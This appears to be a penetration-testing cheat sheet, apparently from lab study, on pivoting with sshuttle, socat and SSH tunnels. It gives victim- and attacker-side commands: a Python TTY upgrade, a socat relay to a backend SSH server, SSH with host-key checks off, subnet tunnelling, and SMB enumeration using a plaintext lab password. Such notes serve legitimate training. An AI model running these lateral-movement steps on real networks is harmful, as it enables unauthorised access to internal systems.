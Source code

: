 # Port Forwarding and SSH Tunneling with Linux Tools

* Pre-condition Initial Access and Execution
* Pre-condition TTY e.g. `python3 -c 'import pty; pty.spawn("/bin/sh")`
* Use SSHuttle to create VPN like SSH tunnels
* Use SSH local (dynamic) and remote (dynamic) port forwarding
* Use SOCAT and other linux tools for local port forwarding methods

## SSHuttle creates VPN like SSH tunnels

Scenario

* Requires DIRECT access to SSH servers
* Requires python3 on SSH Server
* Requires root privileges on SSH client

From https://github.com/sshuttle/sshuttle

sshuttle is a tool that turns an SSH connection into something like a VPN by setting up local routes that force traffic through the SSH tunnel. However, it requires root privileges on the SSH client and Python3 on the SSH server, so it's not always the most lightweight option.

```bash
apt-get install sshuttle
```

Victim

* Use SOCAT forwarder to get direct SSH access to backend

```bash
# forward ports from app frontend to db backend
python3 -c 'import pty; pty.spawn("/bin/sh")'
socat TCP-LISTEN:2222,fork TCP:10.4.175.215:22
```

Attacker

* Use ssh client to connect to the backend
* Run ip route to get routing table with subnet info
* Run sshuttle on kali with --remote [USERNAME[:PASSWORD]@]ADDR[:PORT] and the subnets

```bash
# SSH into victim 
ssh -p 2222 database_admin@192.168.175.63 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"

# Get ip routes 
ip route | tail -n+2 | cut -f1 -d' ' | paste -sd' '
ip route | tail -n+2 | awk '{print $1}' | tr '\n' ' '; echo
ip route | tail -n+2 | cut -f1 -d' ' | python3 -c 'import sys; print(" ".join(sys.stdin.read().splitlines()))'
10.4.175.0/24 172.16.175.0/24

# Run shuttle to create VPN like connections to ip routes
sshuttle -r database_admin@192.168.175.63:2222 10.4.175.0/24 172.16.175.0/24

# Attack the backend smb server on different subnet
smbclient -L //172.16.175.217/ -U hr_admin --password=Welcome1234
```
